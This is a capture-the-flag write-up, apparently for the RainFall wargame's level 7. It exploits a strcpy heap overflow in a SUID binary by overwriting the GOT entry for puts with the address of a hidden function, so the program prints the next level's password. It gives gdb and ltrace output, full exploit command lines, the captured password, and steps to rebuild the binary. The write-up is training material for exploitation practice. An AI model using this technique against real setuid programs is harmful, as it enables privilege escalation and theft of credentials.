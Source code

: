 # Level 7

## Vulnerability

Heap Overflow + Memory Corruption

## Context

We find a binary with owner level8 and SUID.
```
level7@RainFall:~$ ls -l
-rwsr-s---+ 1 level8 users 5648 Mar  9  2016 level7
```
It segfaults when run with 0 or 1 argument. It reponds to 2 or more arguments with "~".
```
level7@RainFall:~$ ./level7
Segmentation fault (core dumped)
level7@RainFall:~$ ./level7 anya
Segmentation fault (core dumped)
level7@RainFall:~$ ./level7 anya drew
~~
level7@RainFall:~$ ./level7 anya drew win
~~
```

## Solution

Let's explore the binary using gdb. 
We can see here that ```main()``` makes 2 calls to ```strcpy()```, and one call to each ```fopen()``` and ```fgets()```.
```strcpy()``` is unsafe in that it has no length parameter, which leaves it vulnerable to buffer overflows and consequent memory corruption. 
```
level7@RainFall:~$ gdb -q level7
(gdb) disas main
   0x080485a0 <+127>:	call   0x80483e0 <strcpy@plt>
   0x080485bd <+156>:	call   0x80483e0 <strcpy@plt>
   0x080485d3 <+178>:	call   0x8048430 <fopen@plt>
   0x080485eb <+202>:	call   0x80483c0 <fgets@plt>
   0x080485f7 <+214>:	call   0x8048400 <puts@plt>
```
Let's take a deeper look at the ```fopen()``` and ```fgets()``` parameters.
It looks like it opens the file with the password we're looking for, and saves it in ```c```!
It then does nothing with ```c```.
```
(gdb) x/s 0x80486e9
0x80486e9:	 "r"
(gdb) x/s 0x80486eb
0x80486eb:	 "/home/user/level8/.pass"
(gdb) x/s 0x8049960
0x8049960 <c>:	 ""
```
Let's see if that's everything. 
We also find a function ```m()``` that is never called. 
This function prints ```time()``` and the variable ```c```!
```
(gdb) info function
All defined functions:
[...]
0x080484f4  m
[...]
(gdb) disas m
Dump of assembler code for function m:
   0x080484f4 <+0>:	push   %ebp
   0x080484f5 <+1>:	mov    %esp,%ebp
   0x080484f7 <+3>:	sub    $0x18,%esp
   0x080484fa <+6>:	movl   $0x0,(%esp)
   0x08048501 <+13>:	call   0x80483d0 <time@plt>
   0x08048506 <+18>:	mov    $0x80486e0,%edx
   0x0804850b <+23>:	mov    %eax,0x8(%esp)
   0x0804850f <+27>:	movl   $0x8049960,0x4(%esp)
   0x08048517 <+35>:	mov    %edx,(%esp)
   0x0804851a <+38>:	call   0x80483b0 <printf@plt>
   0x0804851f <+43>:	leave
   0x08048520 <+44>:	ret
End of assembler dump.
```
Sooo the exploit here is to call ```m()``` by overwriting ```puts()``` in the GOT... and thus print ```c``` (and the password)!

Let's locate the addresses of ```m()``` and ```puts()```.
We can see the address of ```m()``` is 0x080484f4, and the address of ```puts@plt``` is 0x8048400.
But that's just a pointer to ```puts``` GOT address – which, upon closer inspection is 0x8049928.
```
(gdb) info function
All defined functions:
[...]
0x08048400  puts@plt
0x080484f4  m
[...]
(gdb) x/i 0x8048400
   0x8048400 <puts@plt>:	jmp    *0x8049928
```
Next, let's work out our payload. 
We'll use this [buffer overflow EIP offset string generator](https://projects.jason-rush.com/tools/buffer-overflow-eip-offset-string-generator/) to work out which offset is being overwritten. 
```
level7@RainFall:~$ ltrace ./level7 Aa0Aa1Aa2Aa3Aa4Aa5Aa6Aa7Aa8Aa9Ab0Ab1Ab2Ab3Ab4Ab5Ab6Ab7Ab8Ab9Ac0Ac1Ac2Ac3Ac4Ac5Ac6Ac7Ac8Ac9Ad0Ad1Ad2A
__libc_start_main(0x8048521, 2, 0xbffff744, 0x8048610, 0x8048680 <unfinished ...>
malloc(8)                                        = 0x0804a008
malloc(8)                                        = 0x0804a018
malloc(8)                                        = 0x0804a028
malloc(8)                                        = 0x0804a038
strcpy(0x0804a018, "Aa0Aa1Aa2Aa3Aa4Aa5Aa6Aa7Aa8Aa9Ab"...) = 0x0804a018
strcpy(0x37614136, NULL <unfinished ...>
--- SIGSEGV (Segmentation fault) ---
+++ killed by SIGSEGV +++
```
It looks like the program segfaults at 0x37614136, and if we plug that into our handy link above, we find the offset is 20. 

Here is what our string attack should look like:
- pad of arbitrary data [20 bytes]
- puts() GOT address [4 bytes]
- address of m() [4 bytes]
Let's visualize that. 
```
"paddings [20 bytes] + GOT address of puts" + "address of m()"
                  argv[1]                          argv[2]
```
Let's try it out!
```
level7@RainFall:~$ ./level7 $(python -c 'print "a" * 20 + "\x28\x99\x04\x08"') $(python -c 'print "\xf4\x84\x04\x08"')
5684af5cb4c8679958be4abe6373147ab52d95768e047820bf382e44fa8d8fb9
 - 1611061949
```

## Recreate Exploited Binary

As user ```level8```, in ```/tmp```, create and compile ```level7_source.c```
```
level8@RainFall:~$ cd /tmp
level8@RainFall:/tmp$ gcc level7_source.c -o level7_source
```

Edit permissions including suid, then move the binary to home directory.
```
level8@RainFall:/tmp$ chmod u+s level7_source
level8@RainFall:/tmp$ chmod +wx ~; mv level7_source ~
```

Exit back to user ```level7```, then run the binary. <br/>
Notes: 
- Our new address for ```m()``` is located at 0x08048514 (but we still print the address in little endian).
- Our new address for ```puts()``` is located at 0x8048420 => 0x0804a014 (in the GOT)
```
level8@RainFall:/tmp$ exit
exit
level7@RainFall:~$ /home/user/level8/level7_source `python -c 'print "a" * 20 + "\x14\xa0\x04\x08"'` `python -c 'print "\x14\x85\x04\x08"'`
```
